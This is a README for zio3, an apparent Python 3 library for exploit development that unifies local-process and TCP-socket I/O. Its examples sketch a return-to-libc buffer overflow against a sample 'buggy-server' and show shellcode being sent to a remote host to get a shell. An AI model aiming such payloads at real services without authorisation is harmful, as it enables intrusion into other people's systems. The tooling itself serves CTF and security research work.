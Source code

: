 
zio
====

zio3 rewrite in python3. So when you use it, you need to think in python3. zio3 deal with bytes rather than str. Although it has several approaches to avoid bytes and str translations. But remember read series functions always return bytes!

`zio <https://github.com/zTrix/zio>`_ is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of `zio <https://github.com/zTrix/zio>`_ is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

.. code:: python

    from zio3 import *

    if you_are_debugging_local_server_binary:
        io = zio('./buggy-server')            # used for local pwning development
    elif you_are_pwning_remote_server:
        io = zio(('1.2.3.4', 1337))           # used to exploit remote service

    io.write(your_awesome_ropchain_or_shellcode)
    # hey, we got an interactive shell!
    io.interact()

License
=======

`zio3 <https://github.com/alset0326/zio3>`_ use `SATA License (Star And Thank Author License) <https://github.com/zTrix/sata-license>`_, so you have to star this project before using. Read the LICENSE.txt carefully.

Dependency
==========

 - Linux or OSX
 - Python 3.5, 3.6

Installation
============

This is a single-file project so in most cases you can just download `zio3.py <https://raw.githubusercontent.com/alset0326/zio3/master/zio3.py>`_ and start using.

pip is also supported, so you can also install by running 

.. code:: bash

    $ pip3 install git+https://github.com/alset0326/zio3.git

Examples
========
 
.. code:: python

    from zio3 import *
    io = zio('./buggy-server')
    # io = zio((pwn.server, 1337))

    for i in range(1337):
        io.writeline(b'add ' + bytes((i,)))
        io.read_until('>>')

    # directly using str in write is also supported
    io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
    io.read_until('A' * 49)
    libc_base = l32(io.read(4)) - 0x1a9960
    libc_system = libc_base + 0x3ea70
    libc_binsh = libc_base + 0x15fcbf
    payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
    io.write('info ' + payload + "\nshow\nexit\n")
    io.read_until(">>")
    # We've got a shell;-)
    io.interact()

Document
========

To be added... Please wait...

about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

Thanks (Also references)
========================

 - `pexpect <https://github.com/pexpect/pexpect>`_ I borrowed a lot of code from here
 - `sh <https://github.com/amoffat/sh>`_
 - python subprocess module
 - TTY related
    - http://linux.die.net/man/3/cfmakeraw
    - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
    - http://www.linusakesson.net/programming/tty/


